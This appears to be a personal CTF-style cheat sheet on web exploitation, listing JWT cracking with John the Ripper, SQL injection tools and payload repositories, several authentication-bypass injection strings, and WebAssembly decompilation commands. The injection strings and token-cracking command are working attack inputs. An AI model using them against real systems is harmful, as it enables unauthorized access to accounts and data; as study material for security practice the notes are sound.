 # Web Exploitation

## JavaScript, JS

### javascript deobfuscator

https://deobfuscate.io/

### JWT

https://jwt.io/

`john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt jwt.txt`

`john --show jwt.txt`

## SQL Injection

- https://portswigger.net/web-security/sql-injection/cheat-sheet
- https://sqlwiki.netspi.com/

### tools:
- BurpSuite Intruder
- [sqlmap](https://github.com/sqlmapproject/sqlmap)
- TODO: ffuz
- [more...](https://github.com/The-Art-of-Hacking/h4cker/blob/master/web_application_testing/sql-injection-tools.md)
### payloads:
- https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt
- https://github.com/payloadbox/sql-injection-payload-list
- https://github.com/swisskyrepo/PayloadsAllTheThings

Tricks:
- `admin' or 1=1;--`
- `ad'||'min'/*` // concatenation in SQLite
- `SELECT username, password FROM users WHERE username='ad'||'min' AND password='a' is not 'b'`
- `SELECT username, password FROM users WHERE username='ad'||'min' except select' AND password=','' `
- `SELECT username, password FROM users WHERE username='ad'||'min' AND password=''glob'*'`
- 

## WASM, web assembly, WebAssembly

[The WebAssembly Binary Toolkit](https://github.com/WebAssembly/wabt)

Instructions

`sudo apt install wabt`

### to wat [WebAssembly text](https://developer.mozilla.org/en-US/docs/WebAssembly/Understanding_the_text_format)

`wasm2wat --generate-names script.wasm > script.wat`

#### to c

`wasm2c main.wasm -o wasm.c`

### to pseudo code

`wasm-decompile main.wasm -o wasm.dcmp`

### wasmtime

Standalone JIT-style runtime for WebAssembly, using Cranelift

https://github.com/bytecodealliance/wasmtime

https://wasmtime.dev/

for python:

https://github.com/bytecodealliance/wasmtime-py
